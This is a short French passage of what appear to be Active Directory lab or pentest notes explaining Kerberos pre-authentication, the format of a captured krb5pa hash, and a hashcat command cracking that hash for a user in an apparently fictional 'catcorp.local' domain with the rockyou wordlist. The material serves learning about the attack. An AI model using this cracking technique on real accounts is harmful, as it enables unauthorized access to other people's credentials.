 > Si la pré-authentification est désactivée, n’importe qui peut demander un TGT au nom d’un compte, sans envoyer d’authentifiant, et le KDC renverra un `KRB_AS_REP` au demandeur.

Structure d'un hash`AS-REQ` l'hors d'une `Pre-Auth`

```c
$krb5pa$etype$username$domain$cipher
```

![](Images/pre-auth-kerberos.png)

```sh
└─$ hashcat -a 0 -m 19900 hash.txt /opt/rockyou.txt --show

$krb5pa$18$william.dupond$catcorp.local$fc8bbe22b2c967b222ed73dd7616ea71b2ae0c1b0c3688bfff7fecffdebd4054471350cb6e36d3b55ba3420be6c0210b2d978d3f51d1eb4f:.........
```

![](Images/pre-auth-hashcat.png)

> Donc la pré-authentification pour le compte de `william.dupond` a été désactiver
